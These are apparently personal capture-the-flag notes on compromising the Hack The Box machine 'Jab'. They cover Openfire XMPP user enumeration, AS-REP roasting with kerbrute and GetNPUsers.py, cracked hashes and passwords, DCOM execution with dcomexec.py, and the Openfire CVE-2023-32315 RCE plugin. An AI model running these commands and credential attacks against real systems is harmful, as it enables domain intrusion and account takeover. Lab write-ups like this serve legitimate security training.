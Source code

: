 ___



jetty -> Java web server and servlet container used to run Java web applications


there are jabber and xmpp client running on the machine

7070 has a jetty webserver http
Openfire HTTP Binding Service


7777 has a socks proxy running 


*this computer is part of jab AD domain*



is openfire running  jabber and xmpp or no different things




*intersting ports*

5222/tcp  open  jabber        syn-ack ttl 127

Ignite Realtime Openfire Jabber server 3.10.0 or later

5269/tcp  open  xmpp          syn-ack ttl 127 Wildfire XMPP Client


7070/tcp  open  http          syn-ack ttl 127 Jetty
|_http-title: Openfire HTTP Binding Service


7777/tcp  open  socks5        syn-ack ttl 127 (No authentication; connection failed)



*openfire is the xmpp server running here -> it uses jabber*

_Openfire is a Jabber (XMPP) server_




Ignite Realtime Openfire Jabber server 3.10.0 or later ->

# Openfire Path Traversal -> [CVE-2023-32315]
unauthenticated path traversal if I can reach admin portal



*xss vulns in openfire*
https://www.exploit-db.com/exploits/40065



2025/09/04 16:38:00 >  [+] VALID USERNAME:	administrator@jab.htb


2025/09/04 16:41:55 >  [+] VALID USERNAME:	DREW@jab.htb



*this goes over xmpp attack surface*
https://bishopfox.com/blog/xmpp-underappreciated-attack-surface



*I was able to connect to the XMPP server via an account registration with pidgin*


*room in server?*
conference.jab.htb



 *one of the chat rooms*
 test2 -> bdavis sent and image tag 
test -> registration req 



*checked the installed XEP's on the server and search functionality is enabled*
search for all with wildcard got all users, emails, etc


used the xmpp raw terminal for the xml request and got all users as xml


*grab only useranames from that file*
xmllint --xpath "//*[local-name()='field'][@var='Username']/*[local-name()='value']/text()" all_users.xml | cat > only_usernames.txt




ASAP roast vuln
*while I was doing this  kerbrute found this*
2025/09/04 17:55:42 >  [+] mlowe has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$mlowe@JAB.HTB:60ecba9ac3a9dd097eb0641639b45da1$93c5b7fe74db1ba958d670b0e460ce36d22a4905d7bc26fc31aebf68c1bc84c0ff66a3ea831d2fec2a107786c7f2f76675af70f0867f8e6cc83638cf69a6dec76df32f4bf55f38674b7c7f11b1c1bf84a01601657be344bf72bd96f8731d044c6cc2be6ff8a09e47500b65dc3159e127df2f6949011a4d92e165824365427118df852ec8a1da4bf96162dd0fdc02a1555ce78e6987ecd4e1ceb78825348ad08c9e346048c76ba25fbeda7e48b85a359132a4b8ff513b3a8021bad056a1b32877f5d50843fc81f31a600b24574579c55e262e41e206da596d4ff1286bf4909f29e476a48631ef8fc0780ef1bf0adb3578d4aecbe8a9c8


*was not able to crack this hash*


*got TGT's for other users with pre-auth disabled AS_REP roastables*
└> GetNPUsers.py jab.htb/ -usersfile ./loot/only_usernames.txt -outputfile ./loot/tgts_asrep_roast.txt -request -no-pass -dc-ip 10.10.11.4 -dc-host DC01.jab.htb 



*cracked one of the hashes*
$krb5asrep$23$jmontgomery@JAB.HTB:Midnight_121


was able to generate TGT with this user 



*logged in jabber as that guy found pentest chats and a hash*
there was some garbage at the end of the hash deleted it and it worked




*is this the password?*
!@#$%^&*(1qazxsw



*yeah no like that is the password lol that makes sense*
SMB         10.10.11.4      445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw






*this error threw me off so bad bc creds were valid*
[-] DCOM SessionError: code: 0x8000401a - CO_E_RUNAS_LOGON_FAILURE - The server process could not be started because the configured identity is incorrect. Check the user name and password.




*had to change the object that dcomexec was using to execute the commands*

└> dcomexec.py jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 -silentcommand 'ping 10.10.14.24' -object MMC20




got a shell holly  



*found admin hash in the openfire embedded-db script*


*cracked it*
odW!!mVfbXs304kskt!QAZDVGY&@ (hex: 006F0064005700210021006D00560066006200580073003300300034006B0073006B0074002100510041005A004400560047005900260040)

openfire admin only maybe?
*this howhever does not appear to work*


cff12288c7334da63e31deff027bde92a9d126e912918139a970d6fad100dcb76071bff67b9c25f3

*anita smith pass*
vw3PX1Xu9dqz$0




*admin panel running on port 9090*
Openfire, Version: 4.7.5




 # i tried this but it didn't appear to worrk

*second time on this one*
# CVE-2023-32315

Openfire Console Authentication Bypass Vulnerability with RCE plugin


https://github.com/miko550/CVE-2023-32315?tab=readme-ov-file#cve-2023-32315




I already had the admin account password thought so just logged in 



*got root *

so openfire was running as NT/SYSTEM

after getting I shell I could do

net user Administrator newCoolPass123$


to change administrator password then i would be able to log in with winRM

















